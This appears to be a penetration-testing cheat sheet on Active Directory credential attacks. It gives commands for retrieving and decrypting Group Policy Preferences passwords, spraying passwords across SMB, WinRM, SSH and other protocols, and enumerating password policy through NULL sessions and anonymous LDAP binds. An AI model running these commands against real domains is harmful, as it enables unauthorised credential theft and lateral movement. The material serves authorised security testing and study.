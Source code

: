 #### Locating & Retrieving GPP Passwords with CrackMapExec
```bash
$ crackmapexec smb -L | grep gpp
```

#### Decrypting the Password with gpp-decrypt
```bash
$ gpp-decrypt VPe/o9YRyz2cksnYRbNeQj35w9KxQ5ttbvtRaAVqxaE
```

GPP passwords can be located by searching or manually browsing the SYSVOL share or using tools such as Get-GPPPassword.ps1, the GPP Metasploit Post Module, and other Python/Ruby scripts which will locate the GPP and return the decrypted cpassword value. CrackMapExec also has two modules for locating and retrieving GPP passwords. One quick tip to consider during engagements: Often, GPP passwords are defined for legacy accounts, and you may therefore retrieve and decrypt the password for a locked or deleted account. However, it is worth attempting to password spray internally with this password (especially if it is unique). Password re-use is widespread, and the GPP password combined with password spraying could result in further access.

* * *

# Clear Text Password 
## Check for Password Reuse
{ldap,mssql,smb,ssh,winrm}
```bash
$ crackmapexec <protocol> hosts.lst -u <username> -p <password>
```


## Enumerating the Password Policy
* With valid domain credentials, the password policy can also be obtained remotely using tools such as CrackMapExec or rpcclient.

### Linux
```bash
$ crackmapexec smb <DC_IP> -u <USERNAME> -p <PASSWORD> --pass-pol
```

#### SMB NULL Sessions
SMB NULL sessions allow an unauthenticated attacker to retrieve information from the domain, such as a complete listing of users, groups, computers, user account attributes, and the domain password policy. SMB NULL session misconfigurations are often the result of legacy Domain Controllers being upgraded in place, ultimately bringing along insecure configurations, which existed by default in older versions of Windows Server.

```bash
# Using rpcclient
$ rpcclient -U "" -N <DC>
rpcclient $> querydominfo # check SMB for more queries


# Using enum4linux
$ enum4linux -P <DC>


# Using enum4linux-ng
$ enum4linux-ng -P <DC> -oA <FILE>
$ cat <FILE>.json 


# LDAP Anonymous Bind
$ ldapsearch -h <DC> -x -b "DC=INLANEFREIGHT,DC=LOCAL" -s sub "*" | grep -m 1 -B 10 pwdHistoryLength
```